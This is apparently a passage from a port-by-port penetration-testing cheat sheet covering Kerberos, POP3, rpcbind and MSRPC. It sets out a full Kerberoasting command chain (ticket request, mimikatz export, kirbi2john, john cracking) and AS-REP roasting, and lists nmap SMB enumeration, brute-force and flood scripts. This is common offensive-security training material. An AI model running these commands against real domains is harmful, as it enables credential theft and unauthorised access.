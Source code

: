 ```
```
#### 88/tcp (Kerberos)
- Kerberoasting
```
.\GetUserSPNs.ps1  #Get Service Principal Name 

#Request Kerberos ticket, that is saved to memory
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList ""MSSQLSvc/xor-app23.xor.com:1433""

#use mimikatz to dump the kerberos tickets
kerberos::list /export

#extract the kerberos ticket in John format
kirbi2john.py '3-40a10000-xor-app59$@MSSQLSvc~xor-app23.xor.com~1433-XOR.COM.kirbi' >johnkertickethash

#Crack the password from the Kerberos ticket
john --wordlist=/usr/share/wordlists/rockyou.txt   johnkertickethash
We now have the password for the account sqlserver"
```
- Getting TGTs for Users (Do not require Kerberos pre-authentication)
```
/usr/share/doc/python-impacket/examples/GetSPNUsers.py  {domain}/ -no-pass -usersfile users.txt  -dc-ip <IP>
```
#### 110/tcp (POP3)
```
telnet <IP> <PORT>
USER <user@IP>
PASS <passwd>
list #list all emails
retr 5 #retrieve email (in this example, email 5)
```
#### 111/tcp (Rpcbind)
```
rpcbind -p <IP>
```
#### 135/tcp (MSRPC)
- scanning with nmap 
```
nmap <IP> --script=msrpc-enum
nmap -p139,445 <IP>
nmap -p139,445 <IP> --script smb-enum-shares.nse smb-os-discovery.nse
```
- Useful NSE scripts
```
/usr/share/nmap/scripts/smb-brute.nse
/usr/share/nmap/scripts/smb-enum-domains.nse
/usr/share/nmap/scripts/smb-enum-groups.nse
/usr/share/nmap/scripts/smb-enum-processes.nse
/usr/share/nmap/scripts/smb-enum-sessions.nse
/usr/share/nmap/scripts/smb-enum-shares.nse
/usr/share/nmap/scripts/smb-enum-users.nse
/usr/share/nmap/scripts/smb-flood.nse
/usr/share/nmap/scripts/smb-ls.nse
/usr/share/nmap/scripts/smb-mbenum.nse
/usr/share/nmap/scripts/smb-os-discovery.nse
/usr/share/nmap/scripts/smb-print-text.nse
/usr/share/nmap/scripts/smb-psexec.nse
/usr/share/nmap/scripts/smb-security-mode.nse
/usr/share/nmap/scripts/smb-server-stats.nse
/usr/share/nmap/scripts/smb-system-info.nse
```